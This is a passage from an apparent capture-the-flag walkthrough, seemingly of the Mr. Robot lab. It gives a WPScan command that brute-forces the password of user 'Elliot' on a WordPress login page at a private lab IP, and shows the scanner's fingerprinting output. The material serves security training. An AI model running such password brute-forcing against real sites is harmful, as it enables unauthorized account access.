 Once the username is identified, use **WPScan** to brute-force the password.

```bash
wpscan --url  http://192.168.1.5/wp-login.php -U Elliot -P fsocity.dic 
```

```bash
root@neo ~ [127]# wpscan --url  http://192.168.1.5/wp-login.php -U Elliot -P fsocity_cleaned.dic 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.1.5/wp-login.php/ [192.168.1.5]
[+] Started: Thu Jan 23 22:53:46 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Powered-By: PHP/5.5.29
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.1.5/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://192.168.1.5/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Query Parameter In Install Page (Aggressive Detection)
 |  - http://192.168.1.5/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://192.168.1.5/wp-includes/css/dashicons.min.css?ver=4.3.1
 | Confirmed By: Query Parameter In Upgrade Page (Aggressive Detection)
 |  - http://192.168.1.5/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://192.168.1.5/wp-includes/css/dashicons.min.css?ver=4.3.1

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

```